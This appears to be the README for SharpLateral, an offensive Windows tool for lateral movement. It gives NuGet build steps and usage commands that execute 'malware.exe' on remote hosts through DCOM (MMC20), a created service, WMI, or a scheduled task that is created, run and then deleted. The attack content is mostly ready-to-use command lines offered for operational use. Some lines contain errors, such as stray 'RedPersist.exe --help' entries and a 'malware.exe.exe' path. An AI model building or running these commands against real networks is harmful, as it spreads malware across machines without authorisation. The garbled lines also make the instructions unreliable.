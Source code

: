 # SharpLateral

## Compiling Project

Below 3rd party libraries are used in this project.

<b>TaskScheduler</b><br>https://github.com/dahall/TaskScheduler<br>
<b>Fody</b><br>	https://github.com/Fody/Fody<br><br>
Load the Visual Studio project up and go to "Tools" > "NuGet Package Manager" > "Package Manager Settings"<br>
Open "NuGet Package Manager" > "Package Sources"<br><br>
<b>Install the Fody</b><br>``Install-Package Costura.Fody -Version 3.3.3``<br><br>
<b>Install the Taskscheduler</b><br>``Install-Package TaskScheduler -Version 2.8.11``

## Usage

SharpLateral aims to perform lateral movement with the following methods:<br>

- DCOM
- SERVICE
- WMI
- SCHEDULED TASKS

  <br>DCOM:<br>
  ``RedPersist.exe --help``<br><br>
``SharpLateral.exe reddcom HOSTNAME C:\Users\Administrator\Desktop\malware.exe``<br>
````Executes Malware on given hostname via MMC20````
 <br>Scheduled Task:<br>
``SharpLateral schedule C:\Users\Administrator\Desktop\malware.exe TaskName``<br>
````Creates Task,Executes Malware,Deletes Task````<br>
<br>Service:<br>
``SharpLateral.exe redexec HOSTNAME C:\\Users\\Administrator\\Desktop\\malware.exe.exe malware.exe ServiceName``<br>
````Creates Service and executes malware with it````
<br>WMI:<br>
  ``RedPersist.exe --help``<br><br>
 SharpLateral redwmi Client2 C:\\Users\\Administrator\\Desktop\\malware.exe<br>
````Executes malware via WMI on remote host````




